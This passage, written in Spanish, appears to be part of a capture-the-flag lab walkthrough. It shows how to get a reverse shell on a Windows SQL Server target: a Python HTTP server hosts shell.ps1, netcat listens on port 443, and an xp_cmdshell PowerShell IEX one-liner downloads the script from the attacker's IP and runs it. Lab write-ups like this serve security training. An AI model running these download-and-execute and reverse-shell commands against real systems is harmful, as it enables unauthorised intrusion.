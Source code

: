 El primer punto lo haremos utilizando el interprete de `python`, con el cual
podemos utilizar la clase `http.server` e indicarle el puerto de escucha.
Recuerda que necesitar estar en la carpeta donde guardaste el archivo `shell.ps1`.

```bash
python3 -m http.server 80
```

El segundo punto lo podemos hacer utilizando [netcat](https://en.wikipedia.org/wiki/Netcat)
la cual es una herramienta para leer o escribir conexiones de red sobre TCP o UDP.

El comando a utilizar es:

```bash
nc -lvnp 443
```

Los parámetros de `netcat` son los siguientes:

-	`l`: modo de escucha, para conexiones entrantes
-	`v`: modo `verbose`, para ir viendo que sucede
-	`n`: para trabajar con direcciones IP
-	`p`: para indicar el puerto donde estará escuchando la conexión, que es el 443

Para el tercer punto utilizaremos [ufw](https://wiki.debian.org/Uncomplicated%20Firewall%20%28ufw%29)
el cual es un firewall con el que vamos a gestionar los puertos.

El comando a utilizar es:

```bash
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Con sus comando estamos indicando que permita (`allow`) conexiones desde (`from`)
la dirección IP `10.10.10.27` que es la que estamos atacando mediante el protocolo
`TCP` (`proto tcp`) a los puertos 80 y 443 (`to any port 80,443`).

Ahora, regresemos a nuestra terminal de `SQL`, ahi vamos a utilizar la herramienta
`xp_cmdshell` que utilizamos previamente, ahora invocaremos una conexión a nuestro
servidor `HTTP` local que nos permita descargar la reverse shell y ejecutarla.
Al ejecutar la reverse shell se creara una conexión a nuestro equipo que sera
aceptada por `netcat` y desde ahi ya podremos utilizar la reverse shell.

El comando a utilizar es:

```bash
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

Recuerda actualizar tu dirección IP en el comando anterior.

Ya tenemos una reverse shell al usuario en `Windows`, podemos proceder a extraer
la bandera de su escritorio. Para esto podemos podemos movernos a su escritorio
con el comando `cd` e indicar la ruta.

```cmd
cd C:\Users\sql_svc\Desktop
```
